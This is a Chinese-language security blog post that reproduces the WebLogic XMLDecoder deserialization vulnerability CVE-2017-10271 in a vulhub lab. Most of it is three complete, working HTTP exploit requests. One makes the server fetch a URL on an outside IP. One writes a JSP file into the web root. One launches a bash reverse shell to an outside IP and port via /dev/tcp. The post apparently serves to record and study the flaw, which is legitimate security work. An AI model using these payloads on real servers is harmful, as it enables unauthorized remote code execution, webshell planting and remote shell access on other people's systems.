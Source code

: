 +++
date = "2018-03-09T09:20:03+08:00"
description = "2017年的漏洞，weblogic的 XMLDecoder 组件存在反序列化漏洞，当时爆出这个漏洞时没有看，现在权当记录了"
draft = false
tags = ["rce","deserialize"]
title = "WebLogic 反序列化漏洞(CVE-2017-10271)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2019-04-10 10:45:01
 * @LastEditTime: 2019-07-25 12:33:21
 -->

### 0x00 WebLogic WLS组件反序列化漏洞
这个漏洞的编号是 CVE-2017-10271，漏洞存在于 Oracle WebLogic 的 wls-wsat 组件中，该组件的 XMLDecoder 方法在反序列化时存在漏洞可远程代码执行，凡是版本号 < 10.3.6 的都受到影响，刚出来时没有看，现在记录一下

漏洞环境：https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271


### 0x01 访问远程文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8" class="java.beans.XMLDecoder">
                <object id="url" class="java.net.URL">
                    <string>http://114.115.123.123:80/aaaaaaa</string>
                </object>
                <object idref="url">
                    <void id="stream" method = "openStream" />
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

### 0x02 写入文件
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 688
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter"> 
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/cert.jsp</string>
                    <void method="println"><string>&lt;% out.print("ccccc"); %&gt;</string></void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
然后访问：http://127.0.0.1:7001/wls-wsat/cert.jsp 即可

### 0x03 执行命令
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=DJbghZRGlJf0PyyLc52n4GdvrbDkrxKWGDpwnncFpHnqsDjMT68F!-298356074
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 803
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3" >
                        <void index="0"><string>/bin/bash</string></void>
                        <void index="1"><string>-c</string></void>
                        <void index="2"><string><![CDATA[bash -i >& /dev/tcp/114.115.123.123/8888 0>&1]]></string></void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
![CVE-2017-10271执行命令实例](/img/post/cve_2017_10271_command_exec.png)

<br>
#### Reference(侵删)：
* [利用 DNSlog 回显 Weblogic(CVE-2017-10271)漏洞执行命令结果](http://www.freebuf.com/column/158579.html?_blank)
* [Weblogic(CVE-2017-10271)漏洞复现 附POC](http://www.bugsafe.cn/archives/136.html?_blank)
